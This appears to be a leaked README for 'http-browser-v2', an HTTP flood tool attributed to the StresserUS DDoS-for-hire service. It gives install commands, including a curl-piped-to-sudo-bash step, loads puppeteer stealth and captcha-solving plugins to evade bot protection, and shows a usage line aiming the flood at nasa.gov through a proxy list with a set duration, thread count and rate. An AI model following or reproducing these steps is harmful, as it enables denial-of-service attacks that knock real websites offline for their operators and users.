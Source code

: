 # http-browser-v2
New Version of HTTP Browser


curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -

sudo apt -y install nodejs

npm install puppeteer-extra puppeteer-extra-plugin-recaptcha puppeteer-extra-plugin-stealth

chmod 777 optls

node golang_engine.js https://nasa.gov proxy.txt 1200 20 GET 64

Change the 2captcha key on golang_engine

Method coded by Ch2k1t3 friend for StresserUS, released because we got hacked

Dont bully the code, the method was under development
